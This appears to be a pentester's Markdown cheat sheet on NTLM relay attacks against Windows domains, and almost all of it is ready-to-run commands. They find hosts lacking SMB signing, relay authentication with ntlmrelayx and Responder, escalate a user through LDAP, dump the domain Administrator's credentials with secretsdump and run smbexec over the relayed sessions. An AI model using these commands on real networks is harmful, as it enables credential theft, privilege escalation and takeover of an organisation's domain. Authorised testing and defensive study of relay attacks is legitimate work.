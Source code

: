 # How To NTLMRelay

## Notes
 - Configure /etc/proxychains.conf to not proxy DNS and use local port 1080:
   `#proxy_dns`
   `socks4 127.0.0.1 1080`   
 - Start ntlmrelayx with options socks:   
   `ntlmrelayx.py -tf targets.txt -smb2support -socks`  
 - Targets (systems without SMB signing) can be gathered with:   
   `crackmapexec smb 10.10.10.0/24 --gen-relay-list targets.txt`   
 - Try to escalate a given user:   
   `ntlmrelayx.py -t ldap://dc.domain.local --escalate-user USER --remove-mic -smb2support`   
 - Run secretsdump on domain administrator:   
   `secretsdump.py winlab.csnc.ch/hostname$@dc.winlab.csnc.ch -just-dc -just-dc-user Administrator`   
   
 Note: If you want, you can run Responder at the same time, but in that case you have to disable SMB and HTTP server for Responder:   
 - Start Responder.py with SMB and HTTP disabled: (disable them in /root/vkoch/Responder/Responder.conf)   
   `sudo /opt/Responder/Responder.py -I eth1 -w -r -f -d`   

## Using the socks connection
 - Once there is an authenticated socks connection (check with command "socks" in ntlmrelayx console), it can be used with proxychains:   
   `proxychains smbexec.py 'DOMAIN/user:gugus@<target-ip>'`   
   `proxychains secretsdump.py random@100.2.2.2`   
   
- If you relay a machine account:   
   `proxychains smbexec.py 'DOMAIN/MACHINE$:gugus@<target-ip>'`   
